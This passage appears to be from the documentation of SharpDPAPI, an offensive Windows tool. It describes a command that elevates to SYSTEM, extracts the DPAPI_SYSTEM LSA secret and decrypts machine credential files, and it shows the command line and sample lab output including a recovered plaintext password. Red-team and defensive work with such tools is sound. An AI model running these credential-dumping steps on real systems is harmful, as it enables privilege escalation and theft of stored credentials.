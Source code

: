 

#### machinecredentials

The **machinecredentials** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Credential files.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinecredentials

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Credential Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging System Credentials


    Folder       : C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

      CredFile           : C73A55F92FAE222C18A8989FEA28A1FE

        guidMasterKey    : {1cb83cb5-96cd-445d-baac-49e97f4eeb72}
        size             : 544
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      : Local Credential Data

        LastWritten      : 3/24/2019 7:08:43 PM
        TargetName       : Domain:batch=TaskScheduler:Task:{B745BF75-D62D-4B1C-84ED-F0437214ECED}
        TargetAlias      :
        Comment          :
        UserName         : TESTLAB\harmj0y
        Credential       : Password123!


    Folder       : C:\WINDOWS\ServiceProfiles\LocalService\AppData\Local\Microsoft\Credentials

      CredFile           : DFBE70A7E5CC19A398EBF1B96859CE5D

        ...(snip)...
